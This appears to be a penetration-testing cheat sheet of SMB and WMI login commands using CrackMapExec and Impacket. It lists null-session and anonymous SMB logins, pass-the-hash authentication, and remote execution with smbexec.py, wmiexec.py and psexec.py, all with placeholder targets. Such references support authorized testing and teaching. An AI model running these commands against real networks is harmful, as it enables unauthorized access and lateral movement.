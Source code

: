 # Login

## SMB null session login

```
cme smb <target> -u '' -p ''
```

## SMB anonymous login

```
cme smb <target> -u 'a' -p ''
```

## SMB authentication (domain) - CME

```
cme smb <target> -u <user> -p '<password>' -d <domain>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## SMB authentication (domain) - Impacket

```
smbexec.py <domain>/<username>:'<password>'@<target>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## SMB authentication (local)

```
cme smb <target> -u <user> -p '<password>' --local-auth
```

## SMB authentication (Pass-The-Hash)

```
cme smb <target> -u <user> -H <hash> --local-auth
```

## WMI Authentication (domain)

```
wmiexec.py <domain>/<user>:'<password>'@<target>
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## WMI Authentication (Pass-The-Hash)

```
wmiexec.py -hashes <hash> <user>@<target>
```

## Powershell Authentication (domain)

```
psexec.py <domain>/<user>:'<password>'@<target>
```

## Powershell Authentication (Pass-The-Hash)

```
psexec.py -hashes <hash> <user>@<target>
```


